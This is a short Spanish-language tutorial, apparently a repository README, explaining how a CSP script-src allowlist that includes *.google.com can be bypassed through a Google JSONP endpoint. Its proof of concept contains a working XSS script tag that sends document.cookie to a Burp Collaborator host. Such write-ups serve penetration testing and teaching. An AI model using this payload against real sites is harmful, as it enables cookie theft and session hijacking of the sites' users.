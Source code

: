 
# BYPASS CSP SCRIPT-SRC CON GOOGLE

Las políticas de seguridad de contenido, o csp, son una protección extra para evitar ataques, que comúnmente son los XSS, entre otros. Para saber si un sitio cuenta con CSP, podemos simplemente hacer una request y capturarla, y al ver la respuesta, podríamos ver un header de tipo "Content-Security-Policy" o usando este sitio, que nos dirá que tipo de protecciones tiene. En este caso nos vamos a centrar en la política "SCRIPT-SRC". Esta protección básicamente se resume de esta manera. Cualquier sitio que este en la lista blanca podrá ejecutar ese código, de lo contrario, no ejecutará nada.

### EJEMPLO:

![imagen](1.png)

En la foto se aprecia que todo el codigo que venga de `*.google.com  fonts.googleapis.com *.bootstrap.com` se podrá ejecutar, lo cual es un grave error, ya que si alguno de esos sitios cuenta con algún JSONP, se podrá bypassear nuestra política.

En este caso, si quisiéramos ejecutar un xss en una web que tenga esa política, usaríamos un JSONP que venga de bootstrap o de google.com, ya que están en la lista blanca.

### PRUEBA DE CONCEPTO
Como vimos anteriormente, cualquier codigo que venga de esos 2 sitios será ejecutado en nuestro sitio. Google cuenta con un JSONP, y con ello, podriamos bypassear esa protección.

`https://accounts.google.com/o/oauth2/revoke?callback=`

Ese es nuestro JSONP, y un ejemplo de uso sería este:

`<script src="https://accounts.google.com/o/oauth2/revoke?callback=fetch(%27http://xxx.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie})"></script>`

En ese ejemplo, enviamos las cookies a nuestro cliente burp con un bypass de csp script-src.
